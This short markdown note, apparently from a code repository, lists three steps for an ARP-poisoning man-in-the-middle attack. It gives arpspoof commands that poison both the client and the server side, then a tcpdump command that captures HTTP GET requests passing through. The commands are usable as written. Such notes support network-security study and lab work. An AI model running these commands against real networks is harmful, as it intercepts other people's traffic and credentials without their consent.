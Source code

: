 # Using ARP poisoining

- Step 1:
    - poison client side: arpspoof -i eth0 -t (server_ip address) (client_ip address)
- Step 2:
    - poison server side: arpspoof -i eth0 -t (client_ip address) (server_ip address)
- Step 3:
    - packet sniffing in the middle with `tcpdump`
    - Capture GET request `tcpdump -Alvvs0 | grep 'GET'`
